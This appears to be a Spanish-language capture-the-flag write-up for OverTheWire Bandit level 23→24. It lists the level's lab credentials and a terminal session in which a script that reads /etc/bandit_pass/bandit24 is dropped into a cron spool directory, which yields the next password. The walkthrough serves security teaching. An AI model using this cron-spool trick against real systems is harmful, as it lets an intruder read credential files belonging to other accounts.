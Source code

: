 # Bandit Level 23 → Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
```
bandit23
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

## Solucion
```bash
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 10868
drwxrwxrwx   2 bandit23 bandit23     4096 Sep 14 02:25 .
drwxrwx-wt 500 root     root     11116544 Sep 14 02:26 ..
-rw-rw-rw-   1 bandit23 bandit23        0 Sep 14 02:25 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 14 02:25 script.sh
bandit23@bandit:/tmp/kd$ date
Sat Sep 14 02:26:36 AM UTC 2024
bandit23@bandit:/tmp/kd$ ls -la
total 10868
drwxrwxrwx   2 bandit23 bandit23     4096 Sep 14 02:25 .
drwxrwx-wt 500 root     root     11116544 Sep 14 02:26 ..
-rw-rw-rw-   1 bandit23 bandit23        0 Sep 14 02:25 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 14 02:25 script.sh
bandit23@bandit:/tmp/kd$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Notas adicionales



## Referencias